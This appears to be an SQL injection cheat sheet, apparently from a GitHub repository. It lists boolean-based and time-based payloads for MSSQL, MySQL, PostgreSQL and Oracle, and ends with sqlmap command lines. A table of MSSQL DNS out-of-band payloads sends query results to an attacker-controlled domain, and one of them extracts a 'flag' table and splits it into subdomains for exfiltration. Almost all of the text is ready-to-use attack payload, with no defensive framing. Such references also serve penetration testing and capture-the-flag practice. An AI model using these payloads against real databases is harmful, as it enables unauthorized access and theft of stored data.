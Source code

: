 #  SQLi
## Boolean-based

Code: sql

```sql
' AND 1=1;--
```

## Time-based

Code: sql

```sql
'; IF (1=1) WAITFOR DELAY '0:0:10';--
```

| Database      | Payload                                                      |
| ------------- | ------------------------------------------------------------ |
| MSSQL         | `WAITFOR DELAY '0:0:10'`                                     |
| MySQL/MariaDB | `AND (SELECT SLEEP(10) FROM dual WHERE database() LIKE '%')` |
| PostgreSQL    | `\| (SELECT 1 FROM PG_SLEEP(10))`                            |
| Oracle        | `AND 1234=DBMS_PIPE.RECEIVE_MESSAGE('RaNdStR',10)`           |

## DNS Out of Band

| SQL Function                    | SQL Query                                                                                                                                                                                                                                                                                               |
| ------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `master..xp_dirtree`            | `DECLARE @T varchar(1024);SELECT @T=(SELECT 1234);EXEC('master..xp_dirtree "\\'+@T+'.YOUR.DOMAIN\\x"');`                                                                                                                                                                                                |
| `master..xp_fileexist`          | `DECLARE @T VARCHAR(1024);SELECT @T=(SELECT 1234);EXEC('master..xp_fileexist "\\'+@T+'.YOUR.DOMAIN\\x"');`                                                                                                                                                                                              |
| `master..xp_subdirs`            | `DECLARE @T VARCHAR(1024);SELECT @T=(SELECT 1234);EXEC('master..xp_subdirs "\\'+@T+'.YOUR.DOMAIN\\x"');`                                                                                                                                                                                                |
| `sys.dm_os_file_exists`         | `DECLARE @T VARCHAR(1024);SELECT @T=(SELECT 1234);SELECT * FROM sys.dm_os_file_exists('\\'+@T+'.YOUR.DOMAIN\x');`                                                                                                                                                                                       |
| `fn_trace_gettable`             | `DECLARE @T VARCHAR(1024);SELECT @T=(SELECT 1234);SELECT * FROM fn_trace_gettable('\\'+@T+'.YOUR.DOMAIN\x.trc',DEFAULT);`                                                                                                                                                                               |
| `fn_get_audit_file`             | `DECLARE @T VARCHAR(1024);SELECT @T=(SELECT 1234);SELECT * FROM fn_get_audit_file('\\'+@T+'.YOUR.DOMAIN\',DEFAULT,DEFAULT);`                                                                                                                                                                            |
| `split result into sub-domains` | `DECLARE @T VARCHAR(MAX); DECLARE @A VARCHAR(63); DECLARE @B VARCHAR(63); SELECT @T=CONVERT(VARCHAR(MAX), CONVERT(VARBINARY(MAX), flag), 1) from flag; SELECT @A=SUBSTRING(@T,3,63); SELECT @B=SUBSTRING(@T,3+63,63); SELECT * FROM fn_get_audit_file('\\'+@A+'.'+@B+'.YOUR.DOMAIN\',DEFAULT,DEFAULT);` |


## sqlmap

- [https://github.com/sqlmapproject/sqlmap](https://github.com/sqlmapproject/sqlmap)

```
# request in txt
sqlmap -r search-test.txt -p parameter

# post
sqlmap -o -u "http://example.com/index.php?id=1" --data="username=admin&password=pass&submit=+Login+" --method=POST
# get
sqlmap -u "http://example.com/index.php?id=1"

# with point of injection (*)
sqlmap -u "http://example.com/index.php?id=1*-133&debug=true"

# risk
sqlmap -u "http://example.com/index.php?id=1" --risk=3 --level=5
```